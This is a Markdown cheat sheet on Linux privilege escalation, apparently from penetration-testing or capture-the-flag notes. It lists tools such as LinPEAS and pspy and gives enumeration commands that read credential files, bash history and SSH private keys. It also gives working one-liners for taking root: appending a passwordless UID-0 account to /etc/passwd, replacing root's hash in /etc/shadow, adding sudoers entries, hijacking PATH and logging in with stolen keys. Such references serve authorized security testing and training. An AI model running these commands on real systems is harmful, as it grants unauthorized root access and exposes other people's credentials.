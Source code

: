 # Linux Privilege Escalation

- [LinPEAS](https://github.com/carlospolop/PEASS-ng): automatically looks for privilege escalation vectors
- [pspy](https://github.com/DominicBreuker/pspy/releases): monitor processes
- [GTFOBins](https://gtfobins.github.io/): sudo, suid and capabilities
- metasploit: ``post/multi/recon/local_exploit_suggester``

## System enumeration

```
whoami
id
uname -a
ps aux | grep root
history
env
echo $PATH
cat /etc/passwd | grep "sh$"
find / -writable 2>/dev/null
dpkg -l
```

## Interesting files and directories

```
/etc/passwd
/etc/shadow
/etc/sudoers
/etc/hosts
/etc/crontab

/home/<user>/.bash_history
```

```
/root

/var/www
/var/www/html

/opt
/tmp
/dev/shm

/var/mail
/var/spool/mail

/home/<user>
/home/<user>/.ssh

/etc/apache2
/etc/nginx
```

## SUDO, SUID and SGID

- ``sudo -l``: list commands the current user can run with sudo
- ``find / -perm -u=s -type f 2>/dev/null``: SUID
- ``find / -perm -g=s -type f 2>/dev/null``: SGID
- try path hijacking: ``export PATH=/tmp:$PATH``

## Capabilities

```
getcap -r / 2>/dev/null
```

## Cron Jobs

- domains: modify ``/etc/hosts``
- commands without setting the path
- wildcards
```
cat /etc/crontab
crontab -l

pspy
```

## Network

- ``ifconfig``
- ``netstat -tulpn``: open ports
- ``tcpdump``: sniff credentials

## Writable pasword files

#### /etc/passwd
```
echo 'root2::0:0::/root:/bin/bash' >> /etc/passwd
su - root2
```

#### /etc/shadow
1. ``python -c "import crypt; print crypt.crypt('NewRootPassword')"``
2. ``nano /etc/shadow``
3. Replace root's hash with the output that you generated
4. ``su root``

#### /etc/sudoers
```
echo "root ALL=(ALL:ALL) ALL" >> /etc/sudoers
sudo su
```

## SSH

```
find / -name id_rsa 2> /dev/null
```
1. Copy id_rsa contents of keys found with the above command
2. Create a local file on your box and paste the content in
3. ``chmod 600 id_rsa``
4. ``ssh -i id_rsa <user>@<ip>``
